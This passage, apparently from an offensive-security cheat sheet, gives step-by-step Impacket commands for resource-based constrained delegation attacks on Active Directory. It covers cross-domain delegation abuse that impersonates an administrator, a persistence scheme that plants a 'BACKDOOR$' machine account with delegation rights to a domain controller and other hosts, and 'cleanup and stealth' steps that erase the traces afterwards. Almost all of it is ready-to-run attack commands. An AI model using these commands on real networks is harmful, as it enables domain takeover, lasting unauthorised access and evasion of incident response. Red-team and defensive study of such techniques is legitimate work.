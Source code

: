 ```bash
python3 smbexec.py -k -no-pass domain.com/administrator@TARGET.domain.com
```

### Cross-Domain RBCD Attacks
```bash
# Step 1: Configure RBCD across domain trust
python3 rbcd.py domain.com/admin:password -delegate-to 'TARGET$' -delegate-from 'FOREIGN-DOMAIN\user$' -action write

# Step 2: Use foreign domain account for delegation
python3 getST.py foreign.domain.com/user$:password -spn cifs/TARGET.domain.com -impersonate administrator

# Step 3: Access target in different domain
export KRB5CCNAME=administrator.ccache
python3 psexec.py -k -no-pass domain.com/administrator@TARGET.domain.com
```

### RBCD Persistence Mechanism
```bash
# Step 1: Configure RBCD for persistence on multiple targets
python3 rbcd.py domain.com/admin:password -delegate-to 'DC01$' -delegate-from 'BACKDOOR$' -action write
python3 rbcd.py domain.com/admin:password -delegate-to 'SERVER01$' -delegate-from 'BACKDOOR$' -action write
python3 rbcd.py domain.com/admin:password -delegate-to 'WORKSTATION01$' -delegate-from 'BACKDOOR$' -action write

# Step 2: Verify persistence by listing configurations
python3 rbcd.py domain.com/user:password -delegate-to 'DC01$' -action read
python3 rbcd.py domain.com/user:password -delegate-to 'SERVER01$' -action read

# Step 3: Use persistence for long-term access
python3 getST.py domain.com/BACKDOOR$:password -spn cifs/DC01.domain.com -impersonate administrator
```

### Cleanup and Stealth Operations
```bash
# Step 1: Perform attack operations
python3 rbcd.py domain.com/admin:password -delegate-to 'TARGET$' -delegate-from 'TEMP$' -action write
# ... perform attack activities ...

# Step 2: Clean up RBCD configuration
python3 rbcd.py domain.com/admin:password -delegate-to 'TARGET$' -delegate-from 'TEMP$' -action remove

# Step 3: Remove temporary computer account
python3 addcomputer.py domain.com/admin:password -computer-name 'TEMP$' -delete

# Step 4: Verify cleanup
python3 rbcd.py domain.com/user:password -delegate-to 'TARGET$' -action read
```
